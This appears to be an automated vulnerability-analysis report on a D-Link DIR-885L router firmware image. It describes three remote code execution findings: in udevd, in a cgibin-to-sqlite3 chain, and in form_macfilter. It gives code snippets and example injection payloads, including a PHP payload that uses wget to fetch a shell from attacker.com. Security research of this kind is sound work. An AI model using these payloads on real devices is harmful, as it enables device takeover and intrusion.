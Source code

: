 # DIR-885L_fw_revA_1-13_eu_multi_REDACTED_PASSWORD_PLACEHOLDER (190 alerts)

---

### command_injection-udevd-remote_exec

- **File/Directory Path:** `sbin/udevd`
- **Location:** `sbin/udevd:0xb354 (fcn.REDACTED_PASSWORD_PLACEHOLDER)`
- **Risk Score:** 10.0
- **Confidence:** 9.65
- **Description:** Command injection vulnerability. Specific manifestation: In the fcn.REDACTED_PASSWORD_PLACEHOLDER function, the recv() function receives data in the format 'CMD:[command]' and directly passes it to execv() for execution. Trigger condition: An attacker sends malicious TCP/UDP data to a specific port. Impact: Execution of arbitrary commands with REDACTED_PASSWORD_PLACEHOLDER privileges, forming a complete RCE attack chain.
- **Code Snippet:**
  ```
  if (strncmp(local_418, "CMD:", 4) == 0) { execv(processed_cmd, ...) }
  ```
- **Keywords:** fcn.REDACTED_PASSWORD_PLACEHOLDER, execv, recv, CMD:, 0xb354
- **Notes:** Pollution path: Network data → recv buffer → execv parameters. Recommendation: Check exposed service ports. Related to stack overflow vulnerability in same file (fcn.0000a2d4).

---
### exploit_chain-cgibin_to_sqlite3_rce

- **File/Directory Path:** `bin/sqlite3`
- **Location:** `htdocs/cgibin:0x1e478 → bin/sqlite3:fcn.0000d0d0`
- **Risk Score:** 10.0
- **Confidence:** 9.5
- **Description:** Full attack chain: The attacker controls the QUERY_STRING parameter via HTTP requests to inject malicious commands, invokes /bin/sqlite3 with carefully crafted parameters, and triggers either the .load arbitrary library loading or .pragma stack overflow vulnerability to achieve remote code execution. Trigger steps: 1) Send malicious HTTP request to htdocs/cgibin (e.g., `name=';sqlite3 test.db ".load /tmp/evil.so";'`); 2) popen executes the concatenated command; 3) sqlite3 processes the malicious parameters to trigger the vulnerability. Success probability: CVSS 10.0 (complete system control), requiring: a) network input directly controlling command-line parameters b) writable /tmp directory c) no permission verification.
- **Keywords:** QUERY_STRING, popen, command_injection, sqlite3_load_extension, pragma, piVar12[-0x5e], piVar12[-1], bin/sqlite3, htdocs/cgibin
- **Notes:** Forming an end-to-end attack chain: network interface → command injection → sqlite3 vulnerability trigger. RCE can be achieved without additional vulnerabilities, but write capability in the /tmp directory can enhance stability.

---
### network_input-form_macfilter-remote_code_execution

- **File/Directory Path:** `htdocs/mydlink/form_macfilter`
- **Location:** `htdocs/mydlink/form_macfilter (HIDDEN)`
- **Risk Score:** 10.0
- **Confidence:** 8.75
- **Description:** Unverified remote code execution vulnerability. Attack chain: HTTP request contains settingsChanged=1 parameter → malicious pollution of POST parameters like entry_enable_X/mac_hostname_ → parameters directly written to /tmp/form_macfilter.php temporary file → file content executed via dophp('load'). Trigger condition: Attacker submits POST request containing malicious PHP code (e.g.: entry_enable_1=';system("wget http://attacker.com/shell");$a='). Constraints: Only basic MAC address validation (get_valid_mac), no filtering for other parameters. Security impact: Arbitrary command execution with web privileges, complete device compromise.
- **Code Snippet:**
  ```
  fwrite("a", $tmp_file, "$enable = $_POST[\"entry_enable_\".$i.\"];\n");
  dophp("load",$tmp_file);
  ```